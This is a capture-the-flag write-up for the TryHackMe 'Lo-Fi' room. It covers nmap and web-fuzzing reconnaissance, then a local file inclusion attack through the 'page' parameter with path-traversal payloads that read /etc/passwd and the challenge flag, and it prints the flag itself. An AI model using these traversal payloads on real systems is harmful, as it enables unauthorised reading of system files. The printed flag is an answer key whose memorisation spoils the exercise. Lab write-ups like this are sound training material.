



---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - linux
---

# Lo-Fi


**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [Lo-Fi](https://tryhackme.com/room/lofi)  

## Description
"Want to hear some lo-fi beats, to relax or study to? We've got you covered!"

## Enumeration
### Port Scanning
```bash
ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -A -T4 TARGET_IP_ADDRESS
```
```
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9:7b:dc:67:fd:1d:07:fc:f8:71:26:07:ff:c6:b0:be (RSA)
|   256 87:0b:63:98:ef:cf:58:f9:72:12:18:c2:99:79:82:50 (ECDSA)
|_  256 13:23:0f:6a:b5:71:1e:1e:c4:6d:92:73:ef:64:49:76 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Linux 5.X|6.X|4.X (96%), Google Android 10.X|11.X|12.X (93%), Adtran embedded (92%)
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:6 cpe:/o:linux:linux_kernel:4 cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:adtran:424rg
Aggressive OS guesses: Linux 5.14 - 6.8 (96%), Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 - 5.15 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 10 - 11 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Android 9 - 11 (Linux 4.9 - 4.14) (92%), Linux 2.6.32 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### HTTP enumeration
```bash
ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c
gobuster dir -u http://TARGET_IP_ADDRESS -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt
```
**Notes**  
- No `robots.txt` file  
- No `sitemap.xml` file  
- Navigating through the links listed on the page reveals pages are retrieved using LFI:  
  
- Fuzzing returns no hidden pages  
### Vulnerability enumeration
```
searchsploit OpenSSH 8.2p1	# No results
searchsploit httpd 2.2.22	# Only result: DoS
```

## Flag
**Action**  
:white_check_mark: Attempt to exploit LFI with assumed absolute paths 
**Payloads**  
- `http://<TARGET_IP_ADDRESS>/?page=/etc/passwd`  

- `http://<TARGET_IP_ADDRESS>/?page=../etc/passwd` and `http://<TARGET_IP_ADDRESS>/?page=../../etc/passwd`  

- `http://<TARGET_IP_ADDRESS>/?page=../../../etc/passwd`  


**Notes**  
- Challenge note states flag can be found in the **root of the filesystem**  

**Action**  
:white_check_mark: Attempt to retrieve flag by guessing file name in LFI payload  
**Payload**  
- `http://<TARGET_IP_ADDRESS>/?page=../../../flag.txt`  


???	success "Climb the filesystem to find the flag!"  
	 flag{e4478e0eab69bd642b8238765dcb7d18}

**Date completed:** 28/09/26  
**Date published:** 28/09/26